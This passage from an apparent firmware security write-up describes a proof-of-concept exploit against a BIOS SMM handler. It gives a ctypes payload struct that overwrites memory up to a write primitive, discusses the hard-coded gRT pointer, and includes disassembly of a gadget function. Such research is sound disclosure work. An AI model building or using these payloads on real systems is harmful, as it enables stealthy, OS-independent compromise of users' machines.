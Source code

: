 _0x4AA356D8 - 0x4AA34710 (address of pWMIAcpiMemAddr) = **0xFC8**_

The new WMIPayload struct:

<div class="example">
</div>
```
class WMIPayload(ctypes.LittleEndianStructure):
  _pack_ = 1
  _fields_ = [
    ("WmiACPIMemAddress", ctypes.c_uint64),        # 0x0000
    ("WmiACPIMemAddressCpy", ctypes.c_uint64),     # 0x0008
    ("pad_0010", ctypes.c_char * 24),              # 0x0010
    ("gSMST_0", ctypes.c_uint64),                  # 0x0028
    ("pad_0030", ctypes.c_char * 40),              # 0x0030
    ("InSmram", ctypes.c_uint64),                  # 0x0058
    ("gSMRT", ctypes.c_uint64),                    # 0x0060
    ("gSMST_1", ctypes.c_uint64),                  # 0x0068
    ("pad_0070", ctypes.c_char * 3928),            # 0x0070 // 3928 byte padding
    ("Primitive", ctypes.c_byte * 8),              # 0x0FC8 // 0x4AA356D8
  ]
```

There is a caveat—stomping over 0xFC8 bytes starting at the address of `pWMIAcpiMemAddr` means I overwrite one really important pointer—`gRT` (the SMRAM version of runtime services)—which is called at the beginning of the SMI handler (`gRT->GetVariable`). Unfortunately, this pointer isn't leaked anywhere, and so it has to be hard-coded for each BIOS version (it's static). I can't change the `gRT->GetVariable` call either, as it's needed for future steps during the chain. A read-primitive vulnerability would be needed to make this universal; for the POC though, hard-coding the pointer will work just fine.


Here is the assembly for `fnWriteStatusToMemory`:

```
5D               	  pop     rbp   // byte 1
C3               	  retn          // byte 2
                 	  ; end of sub_4AA32368
                    ; fnWriteStatusToMemory start
B8 20 00 00 00   	  mov     eax, 20h ; ' '
45 32 C9         	  xor     r9b, r9b
66 89 02         	  mov     [rdx], ax
8A 01            	  mov     al, [rcx]
84 C0            	  test    al, al
74 1B            	  jz      short locret_4AA32664
45 33 C0         	  xor     r8d, r8d
                 	  loc_4AA3264C:
0F BE C0         	  movsx   eax, al
41 FE C1         	  inc     r9b
66 42 89 44 42 02	  mov     [rdx+r8*2+2], ax
45 0F B6 C1      	  movzx   r8d, r9b
41 8A 04 08      	  mov     al, [r8+rcx]
84 C0            	  test    al, al
75 E8            	  jnz     short loc_4AA3264C
                 	  locret_4AA32664:
C3               	  retn
                    ; g_WriteStatusMsg endp
```

